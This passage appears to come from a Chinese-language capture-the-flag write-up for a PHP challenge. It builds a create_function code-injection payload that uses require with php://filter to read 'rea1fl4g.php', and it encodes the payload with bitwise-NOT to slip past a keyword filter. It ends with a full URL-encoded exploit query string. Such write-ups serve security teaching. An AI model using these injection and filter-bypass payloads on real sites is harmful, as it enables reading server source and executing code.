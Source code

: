 

![image-20230313193606051](https://s2.loli.net/2023/03/13/FUvIM61D9iuQ7Lo.png)

如图，我们已经输出了所有变量及其值，其中：

```php
$ffffffff11111114ggggg="Baka, do you think it's so easy to get my flag? I hid the real flag in rea1fl4g.php 23333"
```

提示我们flag在 `rea1fl4g.php`

于是我们可以使用文件包含漏洞进行读取flag：

```php
arg=}require(php://filter/convert.base64-encode/resource=rea1fl4g.php);//
```

直接使用url编码是不行的，会有关键字过滤，include也用不了，我们可以使用require

观察一下，没有过滤：`~`，于是我们可以取反构造，

```php
arg=}require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//
```

最终：

```php
arg=}%72%65%71%75%69%72%65(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//
```

![image-20230313194510663](https://s2.loli.net/2023/03/13/4w58TFSrqiCZxs2.png)

读取到flag

最终payload：（%0a不要进行urlencode）

```php
/1nD3x.php?f%69%6ce=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&d%65%62u=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&sh%61%6e%61[]=1&pas%73%77d[]=2&f%6c%61%67%5b%63%6fde]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&fl%61%67%5b%61%72g]=}%72%65%71%75%69%72%65(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//


post:
file=1&debu=1
```










